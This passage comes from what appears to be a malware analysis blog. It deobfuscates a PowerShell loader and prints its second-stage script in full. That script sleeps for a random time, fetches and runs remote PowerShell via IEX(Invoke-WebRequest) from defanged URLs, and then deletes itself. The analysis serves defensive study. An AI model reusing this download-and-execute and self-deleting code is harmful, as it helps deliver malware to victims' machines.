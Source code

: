 ``` powershell
Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```
